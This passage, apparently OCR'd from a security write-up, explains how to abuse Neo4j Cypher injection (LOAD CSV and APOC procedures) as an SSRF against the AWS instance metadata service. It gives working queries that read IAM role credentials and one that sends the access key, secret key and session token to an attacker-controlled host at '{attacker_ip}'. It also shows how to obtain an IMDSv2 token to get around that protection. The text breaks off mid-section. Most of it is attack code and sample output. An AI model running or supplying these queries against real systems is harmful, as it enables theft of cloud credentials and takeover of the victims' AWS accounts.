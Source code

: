 While the format is JSON, we can also use LOAD CSV to make the request.:

```plaintext
LOAD CSV FROM ' http://169.254.169.254/latest/meta-data/iam/security-credentials/' AS roles UNWIND roles AS role LOAD CSV FROM ' http://169.254.169.254/latest/meta-data/iam/security-credentials/'+role as l  
```

The result should look like this:

```plaintext
[{"l":["{"]},{"l":["  \"Code\" : \"Success\"",null]},{"l":["  \"LastUpdated\" : \"2022-08-07T06:23:25Z\"",null]},{"l":["  \"Type\" : \"AWS-HMAC\"",null]},{"l":["  \"AccessKeyId\" : \"ASIAX****WZ\"",null]},{"l":["  \"SecretAccessKey\" : \"xKdQRduW****\"",null]},{"l":["  \"Token\" : \"IQoJb3JpZ2luX2Vj********a==\"",null]} 
```

We know the size and structure of the response, so we can exfiltrate everything:

```sql
LOAD CSV FROM ' http://169.254.169.254/latest/meta-data/iam/security-credentials/' AS roles UNWIND roles AS role LOAD CSV FROM ' http://169.254.169.254/latest/meta-data/iam/security-credentials/'+role as l
  
WITH collect(l) AS _t LOAD CSV FROM 'http://{attacker_ip}/' + substring(_t[4][0],19, 20)+'_'+substring(_t[5][0],23, 40)+'_'+substring(_t[6][0],13, 1044) AS _ 
```

This will send to our server a request that contains first the key, then access key secret, and eventually the access token.

### IMDSv2

IMDSv2 is a more secure version, designed to protect the metadata server from simple Server Side Request Forgeries (SSRFs).

To use the metadata server, the attacker first needs to PUSH to the following URL:

```plaintext
http://169.254.169.254/latest/api/token 
```

The server will return a token that we should put in subsequent calls to the metadata server in the header: X-aws-ec2-metadata-token.

This raises two problems: we need to specify headers and we need to use methods other than GET.

LOAD CSV can't do either of these things, but we can use apoc.load.csvParams to get the token and the role, and then apoc.load.jsonParams to get the credentials themselves. The reason we use csvParams is that the response is not a valid JSON.

To get the token:

```sql
CALL apoc.load.csvParams("http://169.254.169.254/latest/api/token", {method: "PUT",`X-aws-ec2-metadata-token-ttl-seconds`:21600},"",{header:FALSE}) yield list WITH list[0] as token RETURN token 
```

To get the role and the credentials:

